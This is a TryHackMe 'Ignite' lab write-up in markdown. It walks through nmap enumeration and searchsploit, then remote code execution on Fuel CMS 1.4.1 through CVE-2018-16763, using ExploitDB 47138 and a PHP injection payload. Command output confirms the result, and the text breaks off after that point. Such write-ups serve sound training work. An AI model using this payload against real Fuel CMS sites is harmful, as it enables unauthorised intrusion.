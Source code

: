# TryHackMe Room: Ignite

- [Room Link](https://tryhackme.com/room/ignite)
- Difficulty: Easy
- Status: ✅ Completed

---

## 🧠 Room Overview

This is a beginner-level box that showcases:
- Enumeration
- Exploiting a vulnerable **Fuel CMS**
- Uploading a reverse shell
- Gaining root access via `sudo`

---

## 🌐 Target Info

- IP: `10.10.XXX.XXX`  ← replace with real IP

---

## 🔍 Enumeration

```bash
nmap -sC -sV -oN nmap.txt 10.10.XXX.XXX

## 🔥 Vulnerability Identified

Used `searchsploit` to identify known vulnerabilities in Fuel CMS:

```bash
searchsploit fuel cms
## ⚙️ Manual Exploit Setup

Copied official RCE exploit from ExploitDB:

```bash
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ./fuel_rce.py
## 💥 Exploitation: Remote Code Execution via CVE-2018-16763

Used a Python 3–compatible version of the public Fuel CMS 1.4.1 exploit (ExploitDB 47138). Modified it to:

- Remove Burp proxy
- Use `input()` for Python 3
- Target: `http://ignite.thm`
- Payload: PHP injection using `pi(print($a='system'))+$a('cmd')`

Confirmed successful RCE:
```bash
cmd: whoami
→ www-data

cmd: id
→ uid=33(www-data) gid=33(www-data)

cmd: uname -a
→ Linux ubuntu 4.15.0-45-generic ...

